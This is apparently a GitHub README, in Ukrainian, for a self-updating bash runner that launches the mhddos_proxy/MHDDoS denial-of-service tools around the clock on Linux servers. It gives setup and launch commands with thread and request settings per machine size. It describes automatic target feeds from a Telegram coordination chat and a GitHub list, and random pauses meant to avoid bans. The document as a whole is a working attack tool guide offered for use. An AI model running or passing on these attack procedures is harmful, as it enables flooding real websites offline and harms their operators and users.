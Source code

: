 # Опис
  
runner.sh - ПОВНІСТЮ АВТООНОВЛЮВАНИЙ (оновлює цілі та себе) bash-скрипт для Linux-машин, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)  
Також він автоматично оновлює не лише свій скрипт та цілі, а й скрипти з mhddos_proxy та MHDDoS: https://github.com/alexnest-ua/auto_mhddos_alexnest/blob/0566b426a4960b283024a37b6995c5b8260d2795/runner.sh#L46
Також мій скрипт імітує роботу людини (вимикає увесь ДДоС на 2-6 (рандомно) хвилин, тобто вашу машину 95% не забанять, якщо правильно підібрати кількість потоків: https://github.com/alexnest-ua/auto_mhddos_alexnest/blob/0566b426a4960b283024a37b6995c5b8260d2795/runner.sh#L132
Скрипт розподіляє список машин по різним цілям  
  
чат де координуються цілі: https://t.me/ddos_separ (звідти і беруться сюди цілі, тому якщо у вас на Linux запущено цей скрипт - то можете відповчивати, він все зробить за вас)  
чат де ви можете задати свої питання: https://t.me/+8swDHSe_ROI5MmJi  
також можете писати мені в особисті у телеграм, я завжди усім відповідаю: @brainqdead
  
Туторіал по створенню автоматичних та автономних Linux-серверів: https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c  

## Налаштування (встановлення)
  
* щоб скачати на Linux-машину:  
```shell
cd ~  
sudo rm -r auto_mhddos_alexnest
sudo apt install git -y  
git clone https://github.com/alexnest-ua/auto_mhddos_alexnest
```
  
**ОБОВ'ЯЗКОВО** - запуск файлу, який встановить скрипти MHDDoS та усі залежності (один раз на новій машині):
```shell
cd ~/auto_mhddos_alexnest
bash setup.sh
```
*чекаємо 5-10 хвилин поки все встановиться.*  

## Запуск на роботу у фоні (24/7 на Linux-сервері) - можна закривати термінал
Запуск автоматичного ДДоСу:  
```shell 
cd ~/auto_mhddos_alexnest
screen -S "runner" bash runner.sh  
```
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
якщо все успішно буде повідомлення [detached from runner]  

**!!!УВАГА!!!** runner.sh підтримує наступні параметри (САМЕ У ТАКОМУ ПОРЯДКУ ТА ЛИШЕ У ТАКІЙ КІЛЬКОСТІ(мінімум 3)), але можно і без них:  
runner.sh [num_of_copies] [threads] [rpc] [debug]  
- num_of_copies - кількість атакуємих за один прохід цілей
- threads - кількість потоків на кожне ядро процесора
- rpc - кількість запитів на проксі перед відправкою на ціль
- debug - можливість дебагу (якщо хочете бачити повний інфу по атаці - у 4-ий параметр додайте --debug)
  
### Приклади команд з різними параметрами:
перед уведенням команд обов'язково зробити ось це:
```shell
cd ~/auto_mhddos_alexnest
```
1. ***Для лінивих*** (буде обрано за замовчуванням: num_of_copies=1, threads=2000 rpc=1000 debug="" (1 ціль, 1500 потоків, 2000 запитів на проксі перед відправкою на ціль, без дебагу)
```shell
screen -S "runner" bash runner.sh 
```
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
якщо все успішно буде повідомлення [detached from runner]  

2. Слаба машина(1 CPU + 1-2 GB RAM), саме ці параметри за замовчуванням:
```shell
screen -S "runner" bash runner.sh 1 2000 1000
```
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
якщо все успішно буде повідомлення [detached from runner]  

3. Середня машина(2 CPUs + 2-4 GB RAM):
```shell
screen -S "runner" bash runner.sh 1 5000 2000
```
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
якщо все успішно буде повідомлення [detached from runner]  

4. Середня+ машина(2-4 CPUs + 4-8 GB RAM):
```shell
screen -S "runner" bash runner.sh 1 6000 2000
```
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
якщо все успішно буде повідомлення [detached from runner]  

5. Нормальна машина(4-8 CPUs + 8-16 GB RAM):
```shell
screen -S "runner" bash runner.sh 2 6000 2000
```
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
якщо все успішно буде повідомлення [detached from runner]  

6. Потужна машина(8+ CPUs + 16+ GB RAM):
```shell
screen -S "runner" bash runner.sh all 10000 5000
```
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
якщо все успішно буде повідомлення [detached from runner]  

  
*також ви можете змінювати параметри на будь-які інші значення, але я рекомендую саме ці.*  
*також можете додавати останнім **4-тим** параметром --debug, що слідкувати за ходом атаки, наприклад:*  
```shell
screen -S "runner" bash runner.sh 1 3000 1000 --debug
```
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
якщо все успішно буде повідомлення [detached from runner]  


* Приклад БЕЗ параметру --debug:
![image](https://user-images.githubusercontent.com/74729549/161614083-dc5ee162-f3cf-4b0f-8ccf-7874bf9d224a.png)
* Приклад З параметром --debug:
![image](https://user-images.githubusercontent.com/74729549/161614196-b8e778a1-3131-4c66-a371-7579d1489869.png)


* щоб подивитися що там працює у фоні:  
```shell 
screen -ls  
```
* щоб перейти до процесу та дізнатися як у нього справи (що він виводить), пишіть:  
```shell 
screen -r runner  
```
Після цього, якщо хочете вбити процес - натискайте Ctrl+C  
щоб вбити усі підпроцеси прописуєте (У ІНШОМУ ВІКНІ ТЕРМІНАЛУ):  
```shell
sudo pkill -e -f runner.sh
sudo pkill -e -f runner.py
sudo pkill -e -f ./start.py
```

* щоб знову від'єднатися, та залишити його працювати:  
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
  
Якщо немає Docker на машині(ВСТАНОВІТЬ НА МАЙБУТНЄ, бо можуть бути проблеми з python-скриптом, у зв'язку з кривими правками від розробників(якщо таке буде я автоматично переведу скрипт на docker)):  
```shell
cd auto_mhddos_test
bash install_docker.sh
```    
* якщо цікаво, чи запустилася docker-команда пропишіть це(ЗАРАЗ НЕ АКТУАЛЬНО):
```shell 
sudo docker ps -af ancestor=ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest  
```
Вам видасть список запущенних контейнерів  
  
щоб вбити запущені docker-контейнери з mhddos_proxy пишіть це:
```shell
sudo docker kill $(sudo docker ps -aqf ancestor=ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest) 
```

УВАГА!!! Скрипт при рестарті (кожні 10-20 хвилин) вбиває старі запущені скрипти саме з MHDDoSом, тому якщо запускаєте цей скрипт на машині-Linux, то інший MHDDoS запускайте лише через docker, або на іншій машині-Linux
  
## Список цілей  

  
runner.sh підтримує единий [список цілей](https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_alexnest/main/runner_targets_new), який можна тримати на github і постійно оновлювати.  
  
  
  
Цілі не обов'язково видаляти із списку. Їх можна просто закоментувати і розкоментувати пізніше, якщо вони знов знадобляться. Скрипт використовує лише строки, які починаються на 'runner.py'.  
